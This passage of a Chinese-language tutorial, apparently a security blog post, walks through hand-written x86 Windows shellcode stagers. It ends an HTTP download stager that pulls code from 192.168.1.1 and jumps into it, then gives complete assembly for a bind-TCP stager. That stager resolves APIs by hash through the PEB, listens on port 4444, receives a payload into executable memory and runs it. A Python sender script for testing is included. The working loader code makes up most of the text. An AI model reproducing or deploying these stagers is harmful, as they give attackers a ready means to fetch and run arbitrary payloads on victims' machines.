    test eax,eax                ; 检查是否已读取完毕（字节数为0）
    jnz download_more           ; 未完成则继续读取
    pop eax                     ; 清理栈上的临时占位符

    ; 9. 跳转到下载的Shellcode并执行
execute_stage:
    ret                         ; 此时栈顶为步骤8中保存的基地址，ret等效于pop eip跳转执行

    ; 10. 错误处理：调用ExitProcess终止程序
failure:
    push 2E3E5B71h               ; ExitProcess的哈希值
    call GetProcAddressByHash    ; 调用ExitProcess终止进程

    ; 辅助标签处理服务器URI和主机名
got_server_uri:
    pop edi                     ; 将server_uri标签的地址弹出到EDI（指向URI字符串）
    call got_server_host        ; 调用标签处理server_host

server_host:                ; 定义服务器主机名（小端存储）
    dw '1','9','2','.','1','6','8','.','1','.','1',0

GetProcAddressByHash:

    ; 1.保存寄存器和目标hash到当前栈帧上
    pushad                      ; 保存调用者所有寄存器的状态，一共压入8个寄存器，则esp-32
    mov ebp,esp                 ; 创建一个新栈帧
    mov eax,[esp+36]            ; 保存哈希值到栈中，为后续动态解析API函数地址做准备
    push eax                    ; 第一次压栈，存储hash值[ebp-4]
    

    ; 2.获取 `InMemoryOrderModuleList` 模块链表的第一个模块结点
    xor edx,edx                 ; 清零EDX寄存器
    assume fs:nothing           ; 忽略段寄存器的默认假设，不然不能读取fs寄存器
    mov edx, fs:[edx + 30h]
    mov edx,[edx+0ch]           ; PEB->Ldr
    mov edx,[edx+14h]           ; 第一个模块

    ; 3.模块遍历
next_mod:
    mov esi,[edx+28h]           ;获取模块的名称
    movzx ecx, word ptr [edx+24h]  ;获取名称长度,第一个注意点
    xor edi,edi                    ;存储模块的hash

    ; 4.计算模块hash
loop_modname:
    xor eax,eax                ; 清零EAX，准备处理字符
    lodsb                      ; 从ESI加载一个字节到AL（自动递增ESI）
    cmp al,'a'                 ; 检查是否为小写字母（ASCII 97）  
    jl not_lowercase           ; 检查是否为小写字母（ASCII 97）
    sub al,20h                 ; 将小写字母转为大写（ASCII减0x20）
not_lowercase:
    ror edi,0dh                ; 将EDI循环右移13位（哈希值混合高低位）
    add edi,eax                ; 将字符值累加到EDI（哈希值更新）
    dec ecx                    ; 字符计数器ECX减1
    jnz loop_modname           ; 若未处理完所有字符，继续循环
    push edx                   ; 将当前模块链表节点地址压栈，位于[ebp-8]
    push edi                   ; 将计算完成的哈希值压栈存储hash值，位于[ebp-12]   

    ; 5.获取导出表
    mov edx,[edx+10h]          ; 获取模块的基址
    mov eax,[edx+3ch]          ; 获取PE头RVA
    add eax,edx                ; 获取PE头地址
    mov eax,[eax+78h]          ; 获取获取导出表的RVA
    test eax,eax               ; 检查是否为空
    jz get_next_mod1           ; 获取下一个模块
    add eax,edx                ; 获取导出表地址
    push eax                   ; 存储导出表的地址，位于[ebp-16]
    mov ecx,[eax+18h]          ; 按名称导出的函数数量（NumberOfNames）
    mov ebx, [eax+20h]         ; 函数名称字符串地址数组的RVA（AddressOfNames RVA）
    add ebx, edx               ; 函数名称字符串地址数组的VA

    ; 6.获取函数名
get_next_func:    
    test ecx, ecx              ; 检查按名称导出的函数数量是否为0
    jz get_next_mod            ; 若为0，跳转到下一个模块
    dec ecx                    ; 函数计数器减1（倒序遍历）
    mov esi, [ebx+ecx*4]       ; 从末尾往前遍历，一个函数名RVA占4字节
    add esi,edx                ; 初始化函数哈希值（EDI=0）
    xor edi,edi                ; 用于存储函数hash值

    ; 7.计算模块 hash + 函数 hash之和，没啥好说的
loop_funcname: 
    xor eax, eax               ; 清空 EAX
    lodsb                      ; 加载字符到 AL，ESI++
    ror edi, 0dh               ; 哈希值循环右移13位
    add edi, eax               ; 累加字符 ASCII 值到哈希      
    cmp al, ah                 ; 检查是否到达字符串的终止符 \0（ASCII 0）
    jne loop_funcname          ; 未到结尾则继续循环
    add edi,[ebp-12]           ; 加上之前的模块hash
    cmp edi,[ebp-4]            ; 于目标hash进行比较
    jnz get_next_func

    ; 8.获取目标函数指针
get_funcAddress:
    pop eax                    ; 获取之前存放的当前模块的导出表地址
    mov ebx, [eax+24h]         ; 获取序号表（AddressOfNameOrdinals）的 RVA
    add ebx, edx               ; 序号表起始地址
    mov cx, [ebx+2*ecx]        ; 从序号表中获取目标函数的导出索引
    mov ebx, [eax+1ch]         ; 获取函数地址表（AddressOfFunctions）的 RVA
    add ebx, edx               ; AddressOfFunctions数组的首地址
    mov eax, [ebx+4*ecx]       ; 获取目标函数指针的RVA
    add eax, edx               ; 获取目标函数指针的地址
    
    ; 9.清栈并调用目标函数
finish:
    pop ebx                    ; 清除之前的模块+函数的hash值
    pop ebx                    ; 清除当前链表的位置
    pop ebx                    ; 清除目标hash值
    mov [esp+28],eax           ; 将 API 函数地址保存eax中
    popad                      ; 恢复所有通用寄存器
    pop ecx                    ; 弹出调用者压入的原始返回地址(由 CALL 指令保存的)
    pop edx                    ; 弹出调用者压入的哈希值
    push ecx                   ; 保存原始返回地址，与jmp eax模拟call指令
    jmp eax                    ; 跳转到目标 API 函数地址

get_next_mod:
    pop eax                    ; 弹出栈中保存的导出表地址
get_next_mod1: 
    pop edi                    ; 弹出之前压栈的计算出来的模块哈希值
    pop edx                    ; 弹出之前存储在当前模块在链表中的位置
    mov edx, [edx]             ; 获取链表的下一个模块节点（FLINK）
    jmp next_mod               ; 跳转回模块遍历循环
end main
```

后续如果有需要，你可以直接编写支持HTTPS的shellcode，在这里我就不演示了。

# 四、x86纯汇编TCP socket传输shellcode（ws2\_32版）

## 4.1 必要的解释

一说到网络，必定离不开socket编程，而微软早就提供给我们有关socket编程的原生库。我们通过微软提供的socket API完成客户端和服务器之间的数据传输（在本节中尤指恶意shellcode），并将数据保存到本地缓冲区中，等待一切就绪即可执行存放在缓冲区的shellcode。

关于socket编程的原生库，一共有两个，一个是wsock32，另一个是ws2\_32。其中wsock32是ws2\_32早期版本，支持古老的windows 操作系统进行socket编程。在本节中只介绍ws2\_32，而wsock32在现代操作系统中，只是作为一个中转站，通过函数转发的方式调用ws2\_32里的函数



大致的流程如下：

1. 使用`WSAStartup`启动进程对 Winsock DLL 的使用
2. 使用`WSASocketA`创建一个套接字
3. 使用`bind`将ip:port绑定到套接字
4. 使用`listen`开启监听模式
5. 使用`accept`线程阻塞，等待数据传输
6. 使用`closesocket`关闭原始套接字，但要保留`closesocket`的返回值（新套接字）
7. 使用`VitualAlloc`申请一块RWX缓冲区
8. 使用`recv`接收数据

代码参考

1. **block\_recv.asm**：使用ws2\_32的socket编程API传输shellcode[metasploit-framework/external/source/shellcode/windows/x86/src/block/block\_bind\_tcp.asm at master · rapid7/metasploit-framework](https://github.com/rapid7/metasploit-framework/blob/master/external/source/shellcode/windows/x86/src/block/block_bind_tcp.asm)
2. **block\_recv.asm**：申请缓冲区，接收shellcode并向缓冲区写入shellcode [metasploit-framework/external/source/shellcode/windows/x86/src/block/block\_recv.asm at master · rapid7/metasploit-framework](https://github.com/rapid7/metasploit-framework/blob/master/external/source/shellcode/windows/x86/src/block/block_recv.asm)
3. **block\_api.asm**：代码通过动态解析哈希值来定位所需的API函数地址 [metasploit-framework/external/source/shellcode/windows/x86/src/block/block\_api.asm at master · rapid7/metasploit-framework](https://github.com/rapid7/metasploit-framework/blob/master/external/source/shellcode/windows/x86/src/block/block_api.asm)

**（1）加载ws2\_32.dll**

不必多说，必须加载ws2\_32.dll才能使用相关的socket API，相信看到这里的师傅也会写了，我就不解释了

```
; 1.加载ws2_32.dll
push 00003233h             	 ; “32\0”
push 5F327377h             	 ; “ws2_”
push esp                   			 ; 将当前栈顶地址作为字符串指针，此时栈内容为"ws2_32\0"
push 0DEC21CCDh             ; kernel32.dll+LoadLibraryA 哈希
call GetProcAddressByHash   
xor ebx,ebx               			 ; 清零，将ebx的值作为0和NULL
```

**（2）调用WSAStartup函数**

**WSAStartup** 动态加载并绑定当前进程所需的 Winsock 动态链接库，检查应用程序请求的版本和系统实际支持的版本，为进程分配必要的 Winsock 运行时资源。

```
; 2.调用WSAStartup函数
sub esp,0190h               ; WSAData结构体大小（400字节)
push esp                    		; lpWSAData=esp，当前栈顶地址作为WSAData的指针
push 0202h                    ; wVersionRequired=0202h，调用方可以使用的最高版本的 Windows 套接字规范，当前版本为2.2
push 78A22668h           ; ws2_32.dll+WSAStartup 哈希
call GetProcAddressByHash  
```

1. **WSADATA** 结构包含有关 Windows 套接字实现的信息，具体字段不用理解，结构体大概在400字节左右，当然也不用细究。
2. `push 0202h`：我查看Stephen Fewer的源码时发现，他使用的是 `0x0190` 作为版本号，这好像不对吧？我查阅相关资料，WS2\_32.dll在Windows 98、2000及以后版本中支持2.2（0x0202），所以我们还是用2.2版本吧。





**（3）调用WSASocketA函数**

**WSASocket**：创建一个套接字（socket），使用的是AF\_INET（ipv4地址系列），传输控制协议使用TCP。

```
; 3.调用WSASocketA函数
push ebx                    ; dwFlags=0
push ebx                    ; g=0
push ebx                    ; lpProtocolInfo=0
push ebx                    ; protocol=0
push 1                      ; type=1
push 2                      ; af=2，地址族规范，使用的是AF_INET，即IPv4
push 5915B629h              ; ws2_32.dll+WSASocketA 哈希
call GetProcAddressByHash
xchg edi,eax                ; 保存套接字到edi中
```

**（4）调用bind函数**

**bind** 函数将本地地址与套接字相关联。如果执行成功返回值为0

```
; 4.调用bind函数
push ebx                    ; sockaddr.sin_addr=0.0.0.0（4字节）
push 5C110002h              ; sockaddr.sin_port=4444（2字节），sockaddr.sin_family=AF_INET（2字节）
mov esi, esp                ; 将当前栈顶地址作为sockaddr_in结构体的指针
push 16                     ; namelen=16
push esi                    ; addr指向要分配给 bound socket 的本地地址的 sockaddr 结构的指针
push edi                    ; 标识未绑定套接字的描述符
push 0DF6E8201h             ; ws2_32.dll+bind 哈希
```

1. 在这里要用到一个sockaddr\_in结构体，这个结构体用来存储 IP 地址和端口号信息，其定义如下

```
struct sockaddr_in {
    short          sin_family;    // 地址族（AF_INET 表示 IPv4）
    unsigned short sin_port;      // 端口号（网络字节序）
    struct in_addr sin_addr;      // IPv4 地址（32位网络字节序）
    char           sin_zero[8];   // 填充字段（必须全为0）
};

struct in_addr {
    unsigned long s_addr;         // IPv4 地址（32位整数）
};
```

我们使用 `push ebx` ，所以sockaddr.sin\_addr=0.0.0.0，表明全地址监听

2. 可以从上述的结构体得知端口号和地址族应该分别占两个字节，结构体按照小端序存储，故 `5C110002h`  高两个字节作为端口号，低两个字节作为地址族。但是这里又出现了一个问题 `5C11` 也不是按照小端的模式啊。  
   

查阅资料后发现，在网络字节序列中端口号应该使用大端模式，**所以要修改端口的师傅请注意**！

3. `push 16`：addr指向的值的长度，2（sin\_family）+2（sin\_port）+4（sin\_addr），并包括了8字节的填充字段。

**（5）调用listen函数**

**listen** 函数将套接字置于侦听传入连接的状态。如果执行成功，返回0

```
; 5.调用listen函数
push ebx                    ; backlog=0
push edi                    ; 标识已绑定、未连接的套接字的描述符
push 776F8FF6h              ; ws2_32.dll+listen 哈希
call GetProcAddressByHash
test eax,eax                ; 到这一步是时候该检查错误了，listen返回值为0表示正常
jnz Exit                     ;
```

在这里我就说一下其实每个函数执行完后都可以 `错误检查` ，但是我为了减少shellcode体积，只在这一步进行 `错误检查`。

**（6）调用accept函数**

**accept** 函数允许对套接字进行传入连接尝试。如果该值是新套接字的描述符。此返回值是建立实际连接的套接字的句柄。

```
; 6.调用accept函数
push eax                    ; addrlen=NULL
push eax                    ; addr=NULL
push edi                    ; 一个描述符，用于标识已使用 listen 函数置于侦听状态的套接字
push 597292B3h              ; ws2_32.dll+accept 哈希
call GetProcAddressByHash
```

`push eax`：为了差异化，当然也可以用push ebx，下条指令同理。如果我们成功执行到这一步，listen的返回值存储在eax中，eax=0。

`call GetProcAddressByHash` ：调用后，程序阻塞，等待连接

**（7）调用closesocket**

**closesocket**：关闭原始套接字，因为我们只尝试建立一个socket连接，后续用不到了原始socket。并将新套接字socket句柄保存到edi中，以备后续接收（recv）使用

```
; 7.调用closesocket
push edi                    ; 关闭原socket
xchg edi,eax                ; 将accept的返回的新socket句柄保存到edi中
push 0D98414B4h             ; ws2_32.dll+closesocket
call GetProcAddressByHash
```

**（8）申请缓冲区**

老步骤了，不多讲

```
; 8.申请缓冲区
push 40h                    ; flProtect=PAGE_EXECUTE_READWRITE（可执行可读写）
push 1000h                  ; flAllocationType=MEM_COMMIT（提交物理内存）
push 00400000h              ; dwSize=4MB
push ebx                    ; lpAddress=NULL（由系统自动分配）
push 0BCEF49D9h             ; kernel32.dll+VirtualAlloc 哈希
call GetProcAddressByHash
```

**（9）接收数据**

**recv** 函数从连接的套接字或绑定的无连接套接字接收数据。其返回值为已接收的字节数。

```
read_pre:
    xchg eax,ebx                ; EBX=分配的内存基地址
    push ebx                    ; 将保存基地址到栈（后续用于跳转）
read_more:
    push 0                      ; flags=0
    push 8192                   ; len=8192，表示一次性接收8192个字节的数据到缓冲区
    push ebx                    ; buf缓冲区的地址
    push edi                    ; 标识已连接套接字的描述符
    push 0D7FF7F41h             ; ws2_32.dll+recv 哈希
    call GetProcAddressByHash
    add ebx, eax                ; 移动缓冲区指针到下一个写入位置
    test eax,eax                ; 检查是否已读取完毕（字节数为0）
    jnz read_more               ; 未完成则继续读取
```

这里与Stephen Fewer的代码大不相同，下图是Stephen Fewer的代码。



1. 我并没有实现下面的代码，这个代码主要就是用于接收前4个字节，这4个字节表示stage的长度。如果要实现，就必需在原始数据的开头patch 4个字节作为接下来接收的数据长度。

```
push byte 0            ; flags
push byte 4            ; length = sizeof( DWORD );
push esi               ; the 4 byte buffer on the stack to hold the second stage length
push edi               ; the saved socket
push 0x5FC8D902        ; hash( "ws2_32.dll", "recv" )
call ebp               ; recv( s, &dwLength, 4, 0 );
```

2. 为了解决这个问题，我就仿照 `block_reverse_http.asm` 的download\_more。

如果一切正常，执行到 `execute_stage` 标签的指令时，esp存放缓冲区的地址，通过ret指令弹出栈上的地址并跳转执行。

## 4.2 测试

在这里需要用python运行一个客户端，存放着payload，而我们的汇编代码作为服务器接收客户端发来的payload并执行（可能与传统的客户端和服务器有些区别，别太在意）。

```
import socket

# 配置目标地址和端口
HOST = '127.0.0.1'
PORT = 4444
FILE_PATH = 'shellcode.bin'  # 要读取的二进制文件路径

try:
    # 从本地读取二进制文件
    with open(FILE_PATH, 'rb') as file:
        MESSAGE = file.read()  # 读取全部字节内容
    print(f"Loaded {len(MESSAGE)} bytes from {FILE_PATH}")
    # 创建 TCP Socket 对象
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        # 连接到目标地址和端口
        s.connect((HOST, PORT))
        print(f"Connected to {HOST}:{PORT}")
        # 发送文件内容
        s.sendall(MESSAGE)
        print(f"Sent {len(MESSAGE)} bytes to server")
except FileNotFoundError:
    print(f"Error: File {FILE_PATH} not found")
except ConnectionRefusedError:
    print(f"Connection to {HOST}:{PORT} refused. Is the server running?")
except Exception as e:
    print(f"Error: {str(e)}")
```

首先调式一下，在read\_more的call GetProcAddressByHash下一个断点，然后运行，并执行python脚本



其次是编译成exe



最后是shellcode形式



其实TCP shellcode还分什么正向连接还有反向连接，感兴趣的师傅的自己去修改吧

## 4.3 完整代码

ws2\_32.dll+WSAStartup=78A22668h  
ws2\_32.dll+WSASocketA=5915B629h  
ws2\_32.dll+bind=0DF6E8201h  
ws2\_32.dll+listen=776F8FF6h  
ws2\_32.dll+accept=597292B3h  
ws2\_32.dll+closesocket=0D98414B4h  
ws2\_32.dll+recv=0D7FF7F41h

```
.386
.model flat, stdcall
option casemap:none

.data
pStream dd 0

.code
; 主程序入口
main:

    ; 1.加载ws2_32.dll
    push 00003233h             	 ; “32\0”
    push 5F327377h             	 ; “ws2_”
    push esp                   			 ; 将当前栈顶地址作为字符串指针，此时栈内容为"ws2_32\0"
    push 0DEC21CCDh             ; kernel32.dll+LoadLibraryA 哈希
    call GetProcAddressByHash   
    xor ebx,ebx               			 ; 清零，将ebx的值作为0和NULL

    ; 2.调用WSAStartup函数
    sub esp,0190h               	; WSAData结构体大小（400字节)
    push esp                    			; lpWSAData=esp，当前栈顶地址作为WSAData的指针
    push 0202h                  		; wVersionRequired=0202h，调用方可以使用的最高版本的 Windows 套接字规范，当前版本为2.2
    push 78A22668h              	; ws2_32.dll+WSAStartup 哈希
    call GetProcAddressByHash   

    ; 3.调用WSASocketA函数
    push ebx                    			; dwFlags=0
    push ebx                    			; g=0
    push ebx                    			; lpProtocolInfo=0
    push ebx                    			; protocol=0
    push 1                      			; type=1
    push 2                      			; af=2，地址族规范，使用的是AF_INET，即IPv4
    push 5915B629h              	; ws2_32.dll+WSASocketA 哈希
    call GetProcAddressByHash
    xchg edi,eax                ; 保存套接字到edi中
    
    ; 4.调用bind函数
    push ebx                    			; sockaddr.sin_addr=0.0.0.0（4字节）
    push 5C110002h              	; sockaddr.sin_port=4444（2字节），sockaddr.sin_family=AF_INET（2字节）
    mov esi, esp                		; 将当前栈顶地址作为sockaddr_in结构体的指针
    push 16                     			; namelen=16，addr指向的值的长度，包括了8字节的填充字段
    push esi                    			; addr指向要分配给 bound socket 的本地地址的 sockaddr 结构的指针
    push edi                    			; 标识未绑定套接字的描述符
    push 0DF6E8201h             ; ws2_32.dll+bind 哈希
    call GetProcAddressByHash
    
    ; 5.调用listen函数
    push ebx                    			; backlog=0
    push edi                    			; 标识已绑定、未连接的套接字的描述符
    push 776F8FF6h              	; ws2_32.dll+listen 哈希
    call GetProcAddressByHash
    test eax,eax                		; 到这一步是时候该检查错误了，listen返回值为0表示正常
    jnz Exit                     			;

    ; 6.调用accept函数
    push eax                    			; addrlen=NULL，为了差异化，当然也可以用push ebx，下条指令同理
    push eax                    			; addr=NULL
    push edi                    			; 一个描述符，用于标识已使用 listen 函数置于侦听状态的套接字
    push 597292B3h              	; ws2_32.dll+accept 哈希
    call GetProcAddressByHash   ; 调用后，程序阻塞，等待连接

    ; 7.调用closesocket
    push edi                    			; 关闭原socket
    xchg edi,eax                		; 将accept的返回的新socket句柄保存到edi中
    push 0D98414B4h             ; ws2_32.dll+closesocket
    call GetProcAddressByHash
    
    ; 8.申请缓冲区
    push 40h                    		; flProtect=PAGE_EXECUTE_READWRITE（可执行可读写）
    push 1000h                  		; flAllocationType=MEM_COMMIT（提交物理内存）
    push 00400000h              	; dwSize=4MB
    push ebx                    			; lpAddress=NULL（由系统自动分配）
    push 0BCEF49D9h            ; kernel32.dll+VirtualAlloc 哈希
    call GetProcAddressByHash

    ; 9.接收数据
read_pre:
    xchg eax,ebx                		; EBX=分配的内存基地址
    push ebx                    			; 将保存基地址到栈（后续用于跳转）
read_more:
    push 0                      			; flags=0
    push 8192                   		; len=8192，表示一次性接收8192个字节的数据到缓冲区
    push ebx                    			; buf缓冲区的地址
    push edi                    			; 标识已连接套接字的描述符
    push 0D7FF7F41h             	; ws2_32.dll+recv 哈希
    call GetProcAddressByHash
    add ebx, eax                		; 移动缓冲区指针到下一个写入位置
    test eax,eax                		; 检查是否已读取完毕（字节数为0）
    jnz read_more               		; 未完成则继续读取

    ;10. 执行
execute_stage:
    ret

Exit:
    push 2E3E5B71h               	; ExitProcess的哈希值
    call GetProcAddressByHash    ; 调用ExitProcess终止进程

GetProcAddressByHash:

    ; 1.保存寄存器和目标hash到当前栈帧上
    pushad                      			; 保存调用者所有寄存器的状态，一共压入8个寄存器，则esp-32
    mov ebp,esp                 		; 创建一个新栈帧
    mov eax,[esp+36]            	; 保存哈希值到栈中，为后续动态解析API函数地址做准备
    push eax                    			; 第一次压栈，存储hash值[ebp-4]
    

    ; 2.获取 `InMemoryOrderModuleList` 模块链表的第一个模块结点
    xor edx,edx                 		; 清零EDX寄存器
    assume fs:nothing           	; 忽略段寄存器的默认假设，不然不能读取fs寄存器
    mov edx, fs:[edx + 30h]
    mov edx,[edx+0ch]           ; PEB->Ldr
    mov edx,[edx+14h]           ; 第一个模块

    ; 3.模块遍历
next_mod:
    mov esi,[edx+28h]           ;获取模块的名称
    movzx ecx, word ptr [edx+24h]  ;获取名称长度,第一个注意点
    xor edi,edi                    ;存储模块的hash

    ; 4.计算模块hash
loop_modname:
    xor eax,eax                ; 清零EAX，准备处理字符
    lodsb                      ; 从ESI加载一个字节到AL（自动递增ESI）
    cmp al,'a'                 ; 检查是否为小写字母（ASCII 97）  
    jl not_lowercase           ; 检查是否为小写字母（ASCII 97）
    sub al,20h                 ; 将小写字母转为大写（ASCII减0x20）
not_lowercase:
    ror edi,0dh                ; 将EDI循环右移13位（哈希值混合高低位）
    add edi,eax                ; 将字符值累加到EDI（哈希值更新）
    dec ecx                    ; 字符计数器ECX减1
    jnz loop_modname           ; 若未处理完所有字符，继续循环
    push edx                   ; 将当前模块链表节点地址压栈，位于[ebp-8]
    push edi                   ; 将计算完成的哈希值压栈存储hash值，位于[ebp-12]   

    ; 5.获取导出表
    mov edx,[edx+10h]          ; 获取模块的基址
    mov eax,[edx+3ch]          ; 获取PE头RVA
    add eax,edx                ; 获取PE头地址
    mov eax,[eax+78h]          ; 获取获取导出表的RVA
    test eax,eax               ; 检查是否为空
    jz get_next_mod1           ; 获取下一个模块
    add eax,edx                ; 获取导出表地址
    push eax                   ; 存储导出表的地址，位于[ebp-16]
    mov ecx,[eax+18h]          ; 按名称导出的函数数量（NumberOfNames）
    mov ebx, [eax+20h]         ; 函数名称字符串地址数组的RVA（AddressOfNames RVA）
    add ebx, edx               ; 函数名称字符串地址数组的VA

    ; 6.获取函数名
get_next_func:    
    test ecx, ecx              ; 检查按名称导出的函数数量是否为0
    jz get_next_mod            ; 若为0，跳转到下一个模块
    dec ecx                    ; 函数计数器减1（倒序遍历）
    mov esi, [ebx+ecx*4]       ; 从末尾往前遍历，一个函数名RVA占4字节
    add esi,edx                ; 初始化函数哈希值（EDI=0）
    xor edi,edi                ; 用于存储函数hash值

    ; 7.计算模块 hash + 函数 hash之和，没啥好说的
loop_funcname: 
    xor eax, eax               ; 清空 EAX
    lodsb                      ; 加载字符到 AL，ESI++
    ror edi, 0dh               ; 哈希值循环右移13位
    add edi, eax               ; 累加字符 ASCII 值到哈希      
    cmp al, ah                 ; 检查是否到达字符串的终止符 \0（ASCII 0）
    jne loop_funcname          ; 未到结尾则继续循环
    add edi,[ebp-12]           ; 加上之前的模块hash
    cmp edi,[ebp-4]            ; 于目标hash进行比较
    jnz get_next_func

    ; 8.获取目标函数指针
get_funcAddress:
    pop eax                    ; 获取之前存放的当前模块的导出表地址
    mov ebx, [eax+24h]         ; 获取序号表（AddressOfNameOrdinals）的 RVA
    add ebx, edx               ; 序号表起始地址
    mov cx, [ebx+2*ecx]        ; 从序号表中获取目标函数的导出索引
    mov ebx, [eax+1ch]         ; 获取函数地址表（AddressOfFunctions）的 RVA
    add ebx, edx               ; AddressOfFunctions数组的首地址
    mov eax, [ebx+4*ecx]       ; 获取目标函数指针的RVA
    add eax, edx               ; 获取目标函数指针的地址
    
    ; 9.清栈并调用目标函数
finish:
    pop ebx                    ; 清除之前的模块+函数的hash值
    pop ebx                    ; 清除当前链表的位置
    pop ebx                    ; 清除目标hash值
    mov [esp+28],eax           ; 将 API 函数地址保存eax中
    popad                      ; 恢复所有通用寄存器
    pop ecx                    ; 弹出调用者压入的原始返回地址(由 CALL 指令保存的)
    pop edx                    ; 弹出调用者压入的哈希值
    push ecx                   ; 保存原始返回地址，与jmp eax模拟call指令
    jmp eax                    ; 跳转到目标 API 函数地址

get_next_mod:
    pop eax                    ; 弹出栈中保存的导出表地址
get_next_mod1: 
    pop edi                    ; 弹出之前压栈的计算出来的模块哈希值
    pop edx                    ; 弹出之前存储在当前模块在链表中的位置
    mov edx, [edx]             ; 获取链表的下一个模块节点（FLINK）
    jmp next_mod               ; 跳转回模块遍历循环
end main
```
